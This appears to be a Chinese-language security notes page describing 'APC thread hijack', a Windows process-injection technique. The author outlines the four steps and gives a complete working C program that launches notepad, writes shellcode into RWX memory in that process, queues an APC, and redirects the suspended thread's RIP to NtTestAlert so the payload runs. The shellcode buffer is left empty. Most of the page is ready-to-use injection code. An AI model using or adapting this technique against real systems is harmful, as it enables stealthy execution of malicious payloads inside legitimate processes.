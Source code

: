 # APC Thread Hijack

## 简介

我也不知道为什么要写这个....这玩意有点像脱裤子放屁....

昨天和某个dalao谈论了一下apc注入，我们经过友好的技术♂交流\(迫真\)，意识到了三环插入的apc无法确定时间执行，于是有了这个东西。

能弹出窗来就是了。

## 流程

1. 插入apc
2. 挂起线程
3. 修改rip指向NtTestAlert函数
4. 恢复线程

## 代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] =
"";

typedef VOID(NTAPI* pNtTestAlert)(VOID);

int main() {
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
	Sleep(1000);//Wait for thread initialization to complete -> nttestalert is executed
	SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	QueueUserAPC((PAPCFUNC)lpBuffer, pi.hThread, NULL);
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)NtTestAlert;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//NtTestAlert();
	return 0;
}
```

![](../.gitbook/assets/image%20%28144%29.png)

